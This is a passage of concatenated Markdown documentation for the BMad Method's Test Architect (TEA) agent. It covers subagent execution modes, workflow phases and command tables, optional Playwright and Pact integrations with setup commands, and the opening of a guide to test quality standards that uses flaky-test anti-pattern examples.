- **Knowledge Base System**: [knowledge-base-system.md](./knowledge-base-system.md)
- **BMad Builder Validation Reports**: `src/workflows/testarch/*/validation-report-*.md`
- **TEA Workflow Examples**: `src/workflows/testarch/*/steps/*.md`

---

## Future Enhancements

1. **Dynamic Step Generation**: LLM generates custom step files based on workflow complexity
2. **Step Caching**: Cache step outputs for identical inputs (idempotent operations)
3. **Adaptive Granularity**: Automatically split steps if too complex
4. **Visual Step Editor**: GUI for creating/editing step files
5. **Step Templates**: Reusable step file templates for common patterns

---

**Status**: Production-ready, 100% LLM compliance achieved
**Validation**: All 9 workflows score 100% on BMad Builder validation
**Testing**: All 9 workflows tested with real projects, zero improvisation issues
**Next Steps**: Implement subagent patterns (see subagent-architecture.md)
````
```

## File: `brain/knowledge/docs_legacy/explanation/subagent-architecture.md`
```markdown
---
title: Subagent Architecture
description: How TEA uses subagents and agent teams across workflows
---

# Subagents and Agent Teams in TEA

This guide explains how TEA orchestrates work when a workflow can split into
worker steps (independent workers or dependency-ordered work units).

## Scope

This applies to these workflows:

- `automate`
- `atdd`
- `test-review`
- `nfr-assess`
- `framework`
- `ci`
- `test-design`
- `trace`

It does not apply to `teach-me-testing`.

---

## Core Model

TEA orchestration has three parts:

1. Resolve execution mode (`tea_execution_mode` + optional runtime probe)
2. Dispatch worker steps (independent or dependency-ordered, depending on workflow)
3. Aggregate worker outputs into one deterministic final artifact

Workers are isolated and exchange data through structured outputs that the
aggregation step validates.

---

## Execution Modes

TEA supports four modes:

- `auto`
- `agent-team`
- `subagent`
- `sequential`

### What Each Mode Means

- `auto`: Choose the best supported mode at runtime.
- `agent-team`: Prefer team/delegation orchestration when runtime supports it.
- `subagent`: Prefer isolated worker orchestration when runtime supports it.
- `sequential`: Run worker steps one-by-one.

### Fallback Behavior

When `tea_capability_probe: true`, TEA can fallback safely:

- `auto` falls back in order: `agent-team` -> `subagent` -> `sequential`
- explicit `agent-team` or `subagent` falls back to next supported mode
- `sequential` always stays sequential

When `tea_capability_probe: false`, TEA honors the requested mode strictly and
fails if runtime cannot execute it.

### Runtime Scheduling

In `agent-team` and `subagent` modes, runtime decides concurrency and timing.
TEA does not impose its own parallel worker limit.

---

## Verbal Override Rules

During a run, explicit user phrasing can override config for that run only.

Supported normalized terms:

- `agent team` or `agent teams` -> `agent-team`
- `agentteam` -> `agent-team`
- `subagent`, `subagents`, `sub agent`, or `sub agents` -> `subagent`
- `sequential` -> `sequential`
- `auto` -> `auto`

Resolution precedence:

1. Explicit run-level request (if present)
2. `tea_execution_mode` in config
3. Runtime fallback (when probing is enabled)

---

## Workflow Coverage Map

### `automate`

- Worker split: API + E2E/backend test generation workers
- Aggregation: merges generated tests, fixtures, and summary stats
- Mode effect: changes orchestration style only, not output contract

### `atdd`

- Worker split: failing API + failing E2E test generation workers
- Aggregation: validates red-phase output and merges artifacts
- Mode effect: changes orchestration style only, not red-phase requirements

### `test-review`

- Worker split: quality-dimension evaluations (determinism, isolation,
  maintainability, performance)
- Aggregation: computes combined quality score/report
- Mode effect: changes orchestration style only, not scoring schema

### `nfr-assess`

- Worker split: security, performance, reliability, scalability assessments
- Aggregation: computes overall risk, compliance summary, priority actions
- Mode effect: changes orchestration style only, not report schema

### `framework`

- Worker split: scaffold work units (structure/config, fixtures, samples)
- Aggregation: consolidates generated framework setup outputs
- Mode effect: changes orchestration style only

### `ci`

- Worker split: orchestration-capable mode resolution for pipeline generation
- Aggregation: deterministic single pipeline artifact
- Mode effect: mostly impacts orchestration policy; final pipeline contract is
  unchanged

### `test-design`

- Worker split: orchestration-capable mode resolution for output generation
- Aggregation: deterministic design artifact output
- Mode effect: orchestration policy only; output schema unchanged

### `trace`

- Worker split: phase/work-unit separation with dependency ordering
- Aggregation: merges gap analysis + coverage/gate data
- Mode effect: orchestration policy only; final decision/report contract
  unchanged

---

## Design Guarantees

TEA maintains these guarantees across all modes:

- Same output schema for a given workflow
- Same validation and aggregation rules
- Same deterministic fallback semantics
- Same failure behavior for missing/invalid worker outputs

Mode selection changes orchestration behavior, not artifact contracts.

---

## Practical Guidance

Recommended defaults:

```yaml
tea_execution_mode: 'auto'
tea_capability_probe: true
```

Use `sequential` when you need strict single-threaded execution or debugging
clarity.

Use explicit `agent-team` or `subagent` only when you intentionally want that
mode and understand runtime support in your environment.

---

## Troubleshooting Signals

Common causes of orchestration confusion:

- Explicit run-level override text was provided and took precedence over config
- Runtime did not support requested mode and fallback changed final mode
- Probe disabled (`tea_capability_probe: false`) with unsupported explicit mode

Check resolved mode logs in the workflow execution report to confirm what mode
actually ran.
```

## File: `brain/knowledge/docs_legacy/explanation/tea-overview.md`
```markdown
---
title: 'Test Architect (TEA) Overview'
description: Understanding the Test Architect (TEA) agent and its role in BMad Method
---

The Test Architect (TEA) is a specialized agent focused on quality strategy, test automation, and release gates in BMad Method projects.

:::tip[Design Philosophy]
TEA was built to solve AI-generated tests that rot in review. For the problem statement and design principles, see [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md). For setup, see [Setup Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md).
:::

## Overview

- **Persona:** Murat, Master Test Architect and Quality Advisor focused on risk-based testing, fixture architecture, ATDD, and CI/CD governance.
- **Mission:** Deliver actionable quality strategies, automation coverage, and gate decisions that scale with project complexity and compliance demands.
- **Use When:** BMad Method or Enterprise track projects, integration risk is non-trivial, brownfield regression risk exists, or compliance/NFR evidence is required. (Quick Flow projects typically don't require TEA)

## Choose Your TEA Engagement Model

BMad does not mandate TEA. There are five valid ways to use it (or skip it). Pick one intentionally.

1. **No TEA**
   - Skip all TEA workflows. Use your existing team testing approach.

2. **TEA Solo (Standalone)**
   - Use TEA on a non-BMad project. Bring your own requirements, acceptance criteria, and environments.
   - Typical sequence: `test-design` (system or epic) -> `atdd` and/or `automate` -> optional `test-review` -> `trace` for coverage and gate decisions.
   - Run `framework` or `ci` only if you want TEA to scaffold the harness or pipeline; they work best after you decide the stack/architecture.

**TEA Lite (Beginner Approach):**

- Simplest way to use TEA - just use `automate` to test existing features.
- Perfect for learning TEA fundamentals in 30 minutes.
- See [TEA Lite Quickstart Tutorial](/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md).

**TEA Academy (Learning Path):**

- Interactive learning companion that teaches testing progressively through 7 structured sessions.
- Perfect for: QAs, developers learning testing, anyone wanting comprehensive testing knowledge.
- **Time:** 1-2 weeks self-paced (30-90 min per session).
- **Features:** State persistence (pause/resume), role-adapted examples (QA/Dev/Lead/VP), quiz validation, completion certificate.
- **Command:** `teach-me-testing` or `TMT` in TEA agent.
- See [Learn Testing with TEA Academy Tutorial](/brain/knowledge/docs_legacy/tutorials/learn-testing-tea-academy.md).

3. **Integrated: Greenfield - BMad Method (Simple/Standard Work)**
   - Phase 3: system-level `test-design`, then `framework` and `ci`.
   - Phase 4: per-epic `test-design`, optional `atdd`, then `automate` and optional `test-review`.
   - Gate (Phase 2): `trace`.

4. **Integrated: Brownfield - BMad Method or Enterprise (Simple or Complex)**
   - Phase 2: baseline `trace`.
   - Phase 3: system-level `test-design`, then `framework` and `ci`.
   - Phase 4: per-epic `test-design` focused on regression and integration risks.
   - Gate (Phase 2): `trace`; `nfr-assess` (if not done earlier).
   - For brownfield BMad Method, follow the same flow with `nfr-assess` optional.

5. **Integrated: Greenfield - Enterprise Method (Enterprise/Compliance Work)**
   - Phase 2: `nfr-assess`.
   - Phase 3: system-level `test-design`, then `framework` and `ci`.
   - Phase 4: per-epic `test-design`, plus `atdd`/`automate`/`test-review`.
   - Gate (Phase 2): `trace`; archive artifacts as needed.

If you are unsure, default to the integrated path for your track and adjust later.

## TEA Command Catalog

| Command       | Primary Outputs                                                                               | Notes                                                | With Browser Automation (CLI/MCP)                                                                                                    |
| ------------- | --------------------------------------------------------------------------------------------- | ---------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| `framework`   | Playwright/Cypress scaffold, `.env.example`, `.nvmrc`, sample specs                           | Use when no production-ready harness exists          | -                                                                                                                                    |
| `ci`          | CI workflow, selective test scripts, secrets checklist                                        | Platform-aware (GitHub Actions default)              | -                                                                                                                                    |
| `test-design` | Combined risk assessment, mitigation plan, and coverage strategy                              | Risk scoring + optional exploratory mode             | **+ Exploratory**: Interactive UI discovery with browser automation (uncover actual functionality)                                   |
| `atdd`        | Failing acceptance tests + implementation checklist                                           | TDD red phase + optional recording mode              | **+ Recording**: UI selectors verified with live browser; API tests benefit from trace analysis                                      |
| `automate`    | Prioritized specs, fixtures, README/script updates, DoD summary                               | Optional healing/recording, avoid duplicate coverage | **+ Healing**: Visual debugging + trace analysis for test fixes; **+ Recording**: Verified selectors (UI) + network inspection (API) |
| `test-review` | Test quality review report with 0-100 score, violations, fixes                                | Reviews tests against knowledge base patterns        | -                                                                                                                                    |
| `nfr-assess`  | NFR assessment report with actions                                                            | Focus on security/performance/reliability            | -                                                                                                                                    |
| `trace`       | Phase 1: Coverage matrix, recommendations. Phase 2: Gate decision (PASS/CONCERNS/FAIL/WAIVED) | Two-phase workflow: traceability + gate decision     | -                                                                                                                                    |

## TEA Workflow Lifecycle

**Phase Numbering Note:** BMad uses a 4-phase methodology with optional Phase 1 and a documentation prerequisite:

- **Documentation** (Optional for brownfield): Prerequisite using `document-project`
- **Phase 1** (Optional): Discovery/Analysis (`brainstorm`, `research`, `product-brief`)
- **Phase 2** (Required): Planning (`prd` creates PRD with FRs/NFRs)
- **Phase 3** (Track-dependent): Solutioning (`architecture` → `test-design` (system-level) → `create-epics-and-stories` → TEA: `framework`, `ci` → `implementation-readiness`)
- **Phase 4** (Required): Implementation (`sprint-planning` → per-epic: `test-design` → per-story: dev workflows)

TEA integrates into the BMad development lifecycle during Solutioning (Phase 3) and Implementation (Phase 4):



**TEA workflows:** `framework` and `ci` run once in Phase 3 after architecture. `test-design` is **dual-mode**:

- **System-level (Phase 3):** Run immediately after architecture/ADR drafting to produce TWO documents: `test-design-architecture.md` (for Architecture/Dev teams: testability gaps, ASRs, NFR requirements) + `test-design-qa.md` (for QA team: test execution recipe, coverage plan, Sprint 0 setup). Feeds the implementation-readiness gate.
- **Epic-level (Phase 4):** Run per-epic to produce `test-design-epic-N.md` (risk, priorities, coverage plan).

The Quick Flow track skips Phases 1 and 3.
BMad Method and Enterprise use all phases based on project needs.
When an ADR or architecture draft is produced, run `test-design` in **system-level** mode before the implementation-readiness gate. This ensures the ADR has an attached testability review and ADR → test mapping. Keep the test-design updated if ADRs change.

## Why TEA Is Different from Other BMM Agents

TEA spans multiple phases (Phase 3, Phase 4, and the release gate). Most BMM agents operate in a single phase. That multi-phase role is paired with a dedicated testing knowledge base so standards stay consistent across projects.

### TEA's 8 Workflows Across Phases

| Phase       | TEA Workflows                                             | Frequency        | Purpose                                                 |
| ----------- | --------------------------------------------------------- | ---------------- | ------------------------------------------------------- |
| **Phase 2** | (none)                                                    | -                | Planning phase - PM defines requirements                |
| **Phase 3** | `test-design` (system-level), `framework`, `ci`           | Once per project | System testability review and test infrastructure setup |
| **Phase 4** | `test-design`, `atdd`, `automate`, `test-review`, `trace` | Per epic/story   | Test planning per epic, then per-story testing          |
| **Release** | `nfr-assess`, `trace` (Phase 2: gate)                     | Per epic/release | Go/no-go decision                                       |

**Note**: `trace` is a two-phase workflow: Phase 1 (traceability) + Phase 2 (gate decision). This reduces cognitive load while maintaining natural workflow.

### Why TEA Requires Its Own Knowledge Base

TEA uniquely requires:

- **Extensive domain knowledge**: Test patterns, CI/CD, fixtures, and quality practices
- **Cross-cutting concerns**: Standards that apply across all BMad projects (not just PRDs or stories)
- **Optional integrations**: Playwright-utils, Playwright CLI, and MCP enhancements

This architecture lets TEA maintain consistent, production-ready testing patterns while operating across multiple phases.

## Track Cheat Sheets (Condensed)

These cheat sheets map TEA workflows to the **BMad Method and Enterprise tracks** across the **4-Phase Methodology** (Phase 1: Analysis, Phase 2: Planning, Phase 3: Solutioning, Phase 4: Implementation).

**Note:** The Quick Flow track typically doesn't require TEA (covered in Overview). These cheat sheets focus on BMad Method and Enterprise tracks where TEA adds value.

**Legend for Track Deltas:**

- ➕ = New workflow or phase added (doesn't exist in baseline)
- 🔄 = Modified focus (same workflow, different emphasis or purpose)
- 📦 = Additional output or archival requirement

### Greenfield - BMad Method (Simple/Standard Work)

**Planning Track:** BMad Method (PRD + Architecture)
**Use Case:** New projects with standard complexity

| Workflow Stage             | Test Architect                                                  | Dev / Team                                                                       | Outputs                                                    |
| -------------------------- | --------------------------------------------------------------- | -------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| **Phase 1**: Discovery     | -                                                               | Analyst `product-brief` (optional)                                               | `product-brief.md`                                         |
| **Phase 2**: Planning      | -                                                               | PM `prd` (creates PRD with FRs/NFRs)                                             | PRD with functional/non-functional requirements            |
| **Phase 3**: Solutioning   | Run `framework`, `ci` AFTER architecture and epic creation      | Architect `architecture`, `create-epics-and-stories`, `implementation-readiness` | Architecture, epics/stories, test scaffold, CI pipeline    |
| **Phase 4**: Sprint Start  | -                                                               | SM `sprint-planning`                                                             | Sprint status file with all epics and stories              |
| **Phase 4**: Epic Planning | Run `test-design` for THIS epic (per-epic test plan)            | Review epic scope                                                                | `test-design-epic-N.md` with risk assessment and test plan |
| **Phase 4**: Story Dev     | (Optional) `atdd` before dev, then `automate` after             | SM `create-story`, DEV implements                                                | Tests, story implementation                                |
| **Phase 4**: Story Review  | Execute `test-review` (optional), re-run `trace`                | Address recommendations, update code/tests                                       | Quality report, refreshed coverage matrix                  |
| **Phase 4**: Release Gate  | (Optional) `test-review` for final audit, Run `trace` (Phase 2) | Confirm Definition of Done, share release notes                                  | Quality audit, Gate YAML + release summary                 |

**Key notes:**

- Run `framework` and `ci` once in Phase 3 after architecture.
- Run `test-design` per epic in Phase 4; use `atdd` before dev when helpful.
- Use `trace` for gate decisions; `test-review` is an optional audit.

### Brownfield - BMad Method or Enterprise (Simple or Complex)

**Planning Tracks:** BMad Method or Enterprise Method
**Use Case:** Existing codebases: simple additions (BMad Method) or complex enterprise requirements (Enterprise Method)

**🔄 Brownfield Deltas from Greenfield:**

- ➕ Documentation (Prerequisite) - Document existing codebase if undocumented
- ➕ Phase 2: `trace` - Baseline existing test coverage before planning
- 🔄 Phase 4: `test-design` - Focus on regression hotspots and brownfield risks
- 🔄 Phase 4: Story Review - May include `nfr-assess` if not done earlier

| Workflow Stage                     | Test Architect                                                            | Dev / Team                                                                       | Outputs                                                                |
| ---------------------------------- | ------------------------------------------------------------------------- | -------------------------------------------------------------------------------- | ---------------------------------------------------------------------- |
| **Documentation**: Prerequisite ➕ | -                                                                         | Analyst `document-project` (if undocumented)                                     | Comprehensive project documentation                                    |
| **Phase 1**: Discovery             | -                                                                         | Analyst/PM/Architect rerun planning workflows                                    | Updated planning artifacts in `{output_folder}`                        |
| **Phase 2**: Planning              | Run ➕ `trace` (baseline coverage)                                        | PM `prd` (creates PRD with FRs/NFRs)                                             | PRD with FRs/NFRs, ➕ coverage baseline                                |
| **Phase 3**: Solutioning           | Run `framework`, `ci` AFTER architecture and epic creation                | Architect `architecture`, `create-epics-and-stories`, `implementation-readiness` | Architecture, epics/stories, test framework, CI pipeline               |
| **Phase 4**: Sprint Start          | -                                                                         | SM `sprint-planning`                                                             | Sprint status file with all epics and stories                          |
| **Phase 4**: Epic Planning         | Run `test-design` for THIS epic 🔄 (regression hotspots)                  | Review epic scope and brownfield risks                                           | `test-design-epic-N.md` with brownfield risk assessment and mitigation |
| **Phase 4**: Story Dev             | (Optional) `atdd` before dev, then `automate` after                       | SM `create-story`, DEV implements                                                | Tests, story implementation                                            |
| **Phase 4**: Story Review          | Apply `test-review` (optional), re-run `trace`, ➕ `nfr-assess` if needed | Resolve gaps, update brain/knowledge/docs_legacy/tests                                                  | Quality report, refreshed coverage matrix, NFR report                  |
| **Phase 4**: Release Gate          | (Optional) `test-review` for final audit, Run `trace` (Phase 2)           | Capture sign-offs, share release notes                                           | Quality audit, Gate YAML + release summary                             |

**Key notes:**

- Start with `trace` in Phase 2 to baseline coverage.
- Focus `test-design` on regression hotspots and integration risk.
- Run `nfr-assess` before the gate if it wasn't done earlier.

### Greenfield - Enterprise Method (Enterprise/Compliance Work)

**Planning Track:** Enterprise Method (BMad Method + extended security/devops/test strategies)
**Use Case:** New enterprise projects with compliance, security, or complex regulatory requirements

**🏢 Enterprise Deltas from BMad Method:**

- ➕ Phase 1: `research` - Domain and compliance research (recommended)
- ➕ Phase 2: `nfr-assess` - Capture NFR requirements early (security/performance/reliability)
- 🔄 Phase 4: `test-design` - Enterprise focus (compliance, security architecture alignment)
- 📦 Release Gate - Archive artifacts and compliance evidence for audits

| Workflow Stage             | Test Architect                                                         | Dev / Team                                                                       | Outputs                                                            |
| -------------------------- | ---------------------------------------------------------------------- | -------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| **Phase 1**: Discovery     | -                                                                      | Analyst ➕ `research`, `product-brief`                                           | Domain research, compliance analysis, product brief                |
| **Phase 2**: Planning      | Run ➕ `nfr-assess`                                                    | PM `prd` (creates PRD with FRs/NFRs), UX `create-ux-design`                      | Enterprise PRD with FRs/NFRs, UX design, ➕ NFR documentation      |
| **Phase 3**: Solutioning   | Run `framework`, `ci` AFTER architecture and epic creation             | Architect `architecture`, `create-epics-and-stories`, `implementation-readiness` | Architecture, epics/stories, test framework, CI pipeline           |
| **Phase 4**: Sprint Start  | -                                                                      | SM `sprint-planning`                                                             | Sprint plan with all epics                                         |
| **Phase 4**: Epic Planning | Run `test-design` for THIS epic 🔄 (compliance focus)                  | Review epic scope and compliance requirements                                    | `test-design-epic-N.md` with security/performance/compliance focus |
| **Phase 4**: Story Dev     | (Optional) `atdd`, `automate`, `test-review`, `trace` per story        | SM `create-story`, DEV implements                                                | Tests, fixtures, quality reports, coverage matrices                |
| **Phase 4**: Release Gate  | Final `test-review` audit, Run `trace` (Phase 2), 📦 archive artifacts | Capture sign-offs, 📦 compliance evidence                                        | Quality audit, updated assessments, gate YAML, 📦 audit trail      |

**Key notes:**

- Run `nfr-assess` early in Phase 2.
- `test-design` emphasizes compliance, security, and performance alignment.
- Archive artifacts at the release gate for audits.

**Related how-to guides:**

- [How to Run Test Design](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md)
- [How to Set Up a Test Framework](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md)
- [How to Run ATDD](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md)
- [How to Run Automate](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md)
- [How to Run Test Review](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md)
- [How to Set Up CI Pipeline](/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md)
- [How to Run NFR Assessment](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md)
- [How to Run Trace](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md)

## Deep Dive Concepts

Want to understand TEA principles and patterns in depth?

**Core Principles:**

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Probability × impact scoring, P0-P3 priorities
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Definition of Done, determinism, isolation
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - Context engineering with tea-index.csv

**Technical Patterns:**

- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Pure function → fixture → composition
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Eliminating flakiness with intercept-before-navigate

**Engagement & Strategy:**

- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - TEA Lite, TEA Solo, TEA Integrated (5 models explained)

**Philosophy:**

- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Start here to understand WHY TEA exists** - The problem with AI-generated tests and TEA's three-part solution

## Optional Integrations

### Playwright Utils (`@seontechnologies/playwright-utils`)

Production-ready fixtures and utilities that enhance TEA workflows.

- Install: `npm install -D @seontechnologies/playwright-utils`
  > Note: Playwright Utils is enabled via the installer. Only set `tea_use_playwright_utils` in `_bmad/tea/config.yaml` if you need to override the installer choice.
- Impacts: `framework`, `atdd`, `automate`, `test-review`, `ci`
- Utilities include: api-request, auth-session, network-recorder, intercept-network-call, recurse, log, file-utils, burn-in, network-error-monitor, fixtures-composition

### Pact.js Utils (`@seontechnologies/pactjs-utils`)

Production-ready contract testing utilities that reduce raw Pact.js boilerplate and standardize provider verification patterns.

- Install: `npm install -D @seontechnologies/pactjs-utils @pact-foundation/pact`
- Config: `tea_use_pactjs_utils: true` (default is `false`, opt in only when you want Pact-aware workflows)
- Impacts: `framework`, `atdd`, `automate`, `test-design`, `test-review`, `ci`
- Utilities include: createProviderState, toJsonMap, setJsonBody, setJsonContent, buildVerifierOptions, buildMessageVerifierOptions, createRequestFilter, noOpRequestFilter, handlePactBrokerUrlAndSelectors, getProviderVersionTags
- Supports local monorepo flow (`pactUrls`) and remote broker flow (`PACT_BROKER_BASE_URL`, `PACT_BROKER_TOKEN`)

### Browser Automation (Playwright CLI + MCP)

**CLI and MCP are complementary tools, not competitors.** Auto mode uses each where it shines — CLI for token-efficient stateless snapshots, MCP for rich stateful automation — while giving users full control to override when they know better.

**Playwright CLI** (`@playwright/cli`) — lightweight, token-efficient shell commands. The agent opens a page, takes a snapshot, and gets back concise element references instead of full DOM trees. ~93% fewer tokens than MCP. Best for quick, stateless tasks: page discovery, selector verification, screenshot capture.

**Playwright MCP** — rich, stateful browser automation via MCP servers. The agent gets full accessibility trees and can maintain complex multi-step flows. Best for stateful tasks: multi-step wizards, self-healing mode, deep DOM introspection.

**Configuration** (`_bmad/tea/config.yaml`):

    tea_browser_automation: "auto"  # auto | cli | mcp | none

| Mode   | What happens                                                                                                                                               |
| ------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `auto` | TEA picks the right tool per action — CLI for quick lookups, MCP for complex flows. Falls back gracefully if only one tool is installed. **(Recommended)** |
| `cli`  | CLI only. MCP ignored even if configured.                                                                                                                  |
| `mcp`  | MCP only. CLI ignored even if installed. Same as the old `tea_use_mcp_enhancements: true`.                                                                 |
| `none` | No browser interaction. TEA generates from docs and code analysis only.                                                                                    |

**Setup:**

- CLI: `npm install -g @playwright/cli@latest` (global, one-time) then `playwright-cli install --skills` (from project root)
- MCP: Configure MCP servers in your IDE (see [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md))

**Which workflows benefit:**

- `test-design` — Exploratory mode: snapshot pages to discover actual UI elements
- `atdd` / `automate` — Verify selectors against live DOM before generating tests
- `test-review` — Capture traces, screenshots, and network logs as evidence

**To disable**: set `tea_browser_automation: "none"` in config or skip both CLI and MCP installation.

### Pact MCP (SmartBear MCP for PactFlow/Pact Broker)

Optional MCP integration for design-time broker interaction in contract testing workflows.

**Configuration** (`_bmad/tea/config.yaml`):

    tea_pact_mcp: "none"  # none | mcp

| Mode   | What happens                                                                                                        |
| ------ | ------------------------------------------------------------------------------------------------------------------- |
| `mcp`  | TEA can use SmartBear MCP tools for provider-state discovery, test review support, can-i-deploy, and matrix checks. |
| `none` | Default. TEA skips broker/MCP integration entirely unless you explicitly enable it.                                 |

**Setup:**

- Install: `npm install -g @smartbear/mcp` (or use `npx -y @smartbear/mcp@latest`)
- Claude Code (global): `claude mcp add-json -s user smartbear '{"type":"stdio","command":"npx","args":["-y","@smartbear/mcp@latest"],"env":{"PACT_BROKER_BASE_URL":"...","PACT_BROKER_TOKEN":"..."}}'`
- Required broker env vars: `PACT_BROKER_BASE_URL` and token/basic-auth credentials

**Which workflows benefit:**

- `test-design` — Fetch provider states and broker landscape
- `automate` — Assist pact test generation with broker context
- `test-review` — Review pact tests against broker-informed best practices
- `ci` — Reference can-i-deploy and matrix checks

**Note:** Pact MCP complements `pactjs-utils`. MCP helps at planning/review time; `pactjs-utils` is used in runtime test code.

---

## Complete TEA Documentation Navigation

### Start Here

**New to TEA? Start with the tutorial:**

- [TEA Lite Quickstart Tutorial](/brain/knowledge/docs_legacy/tutorials/tea-lite-quickstart.md) - 30-minute beginner guide using TodoMVC

### Workflow Guides (Task-Oriented)

**All 9 TEA workflows with step-by-step instructions:**

1. [How to Learn Testing with TEA Academy](/brain/knowledge/docs_legacy/how-to/workflows/teach-me-testing.md) - Teach Me Testing (TEA Academy)
2. [How to Set Up a Test Framework with TEA](/brain/knowledge/docs_legacy/how-to/workflows/setup-test-framework.md) - Scaffold Playwright or Cypress
3. [How to Set Up CI Pipeline with TEA](/brain/knowledge/docs_legacy/how-to/workflows/setup-ci.md) - Configure CI/CD with selective testing
4. [How to Run Test Design with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-test-design.md) - Risk-based test planning (system or epic)
5. [How to Run ATDD with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-atdd.md) - Generate failing tests before implementation
6. [How to Run Automate with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-automate.md) - Expand test coverage after implementation
7. [How to Run Test Review with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-test-review.md) - Audit test quality (0-100 scoring)
8. [How to Run NFR Assessment with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-nfr-assess.md) - Validate non-functional requirements
9. [How to Run Trace with TEA](/brain/knowledge/docs_legacy/how-to/workflows/run-trace.md) - Coverage traceability + gate decisions

### Customization & Integration

**Optional enhancements to TEA workflows:**

- [Integrate Playwright Utils](/brain/knowledge/docs_legacy/how-to/customization/integrate-playwright-utils.md) - Production-ready fixtures and 9 utilities
- [Configure Browser Automation](/brain/knowledge/docs_legacy/how-to/customization/configure-browser-automation.md) - Playwright CLI + MCP setup, auto mode
- [TEA Configuration Reference (Pact.js Utils + Pact MCP)](configuration.md#tea_use_pactjs_utils) - Contract-testing integrations and setup

### Use-Case Guides

**Specialized guidance for specific contexts:**

- [Using TEA with Existing Tests (Brownfield)](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-with-existing-tests.md) - Incremental improvement, regression hotspots, baseline coverage
- [Running TEA for Enterprise](/brain/knowledge/docs_legacy/how-to/brownfield/use-tea-for-enterprise.md) - Compliance, NFR assessment, audit trails, SOC 2/HIPAA

### Concept Deep Dives (Understanding-Oriented)

**Understand the principles and patterns:**

- [Risk-Based Testing](/brain/knowledge/docs_legacy/explanation/risk-based-testing.md) - Probability × impact scoring, P0-P3 priorities, mitigation strategies
- [Test Quality Standards](/brain/knowledge/docs_legacy/explanation/test-quality-standards.md) - Definition of Done, determinism, isolation, explicit assertions
- [Fixture Architecture](/brain/knowledge/docs_legacy/explanation/fixture-architecture.md) - Pure function → fixture → composition pattern
- [Network-First Patterns](/brain/knowledge/docs_legacy/explanation/network-first-patterns.md) - Intercept-before-navigate, eliminating flakiness
- [Knowledge Base System](/brain/knowledge/docs_legacy/explanation/knowledge-base-system.md) - Context engineering with tea-index.csv, 42 fragments
- [Engagement Models](/brain/knowledge/docs_legacy/explanation/engagement-models.md) - TEA Lite, TEA Solo, TEA Integrated (5 models explained)

### Philosophy & Design

**Why TEA exists and how it works:**

- [Testing as Engineering](/brain/knowledge/docs_legacy/explanation/testing-as-engineering.md) - **Start here to understand WHY** - The problem with AI-generated tests and TEA's three-part solution

### Reference (Quick Lookup)

**Factual information for quick reference:**

- [TEA Command Reference](../bmad_repo/commands.md) - All 9 workflows: inputs, outputs, phases, frequency
- [TEA Configuration Reference](configuration.md) - Config options, file locations, setup examples
- [Knowledge Base Index](../../../vault/archives/archive_legacy/AstrBot/docs/en/use/knowledge-base.md) - 42 fragments categorized and explained
- [Glossary - TEA Section](../INDEX.md#test-architect-tea-concepts) - 20 TEA-specific terms defined
```

## File: `brain/knowledge/docs_legacy/explanation/test-quality-standards.md`
```markdown
---
title: 'Test Quality Standards Explained'
description: Understanding TEA's Definition of Done for deterministic, isolated, and maintainable tests
---

# Test Quality Standards Explained

Test quality standards define what makes a test "good" in TEA. These aren't suggestions - they're the Definition of Done that prevents tests from rotting in review.

## Overview

**TEA's Quality Principles:**

- **Deterministic** - Same result every run
- **Isolated** - No dependencies on other tests
- **Explicit** - Assertions visible in test body
- **Focused** - Single responsibility, appropriate size
- **Fast** - Execute in reasonable time

**Why these matter:** Tests that violate these principles create maintenance burden, slow down development, and lose team trust.

## The Problem

### Tests That Rot in Review

```typescript
// ❌ The anti-pattern: This test will rot
test('user can do stuff', async ({ page }) => {
  await page.goto('/');
  await page.waitForTimeout(5000); // Non-deterministic

  if (await page.locator('.banner').isVisible()) {
    // Conditional
    await page.click('.dismiss');
  }

  try {
    // Try-catch for flow control
    await page.click('#load-more');
  } catch (e) {
    // Silently continue
  }

  // ... 300 more lines of test logic
  // ... no clear assertions
});
```

**What's wrong:**

- **Hard wait** - Flaky, wastes time
- **Conditional** - Non-deterministic behavior
- **Try-catch** - Hides failures
- **Too large** - Hard to maintain
- **Vague name** - Unclear purpose
- **No explicit assertions** - What's being tested?

**Result:** PR review comments: "This test is flaky, please fix" → never merged → test deleted → coverage lost

### AI-Generated Tests Without Standards

AI-generated tests without quality guardrails:

```typescript
// AI generates 50 tests like this:
test('test1', async ({ page }) => {
  await page.goto('/');
  await page.waitForTimeout(3000);
  // ... flaky, vague, redundant
});

test('test2', async ({ page }) => {
  await page.goto('/');
  await page.waitForTimeout(3000);
  // ... duplicates test1
});

// ... 48 more similar tests
```

**Result:** 50 tests, 80% redundant, 90% flaky, 0% trusted by team - low-quality outputs that create maintenance burden.

## The Solution: TEA's Quality Standards

### 1. Determinism (No Flakiness)

**Rule:** Test produces same result every run.

**Requirements:**

- ❌ No hard waits (`waitForTimeout`)
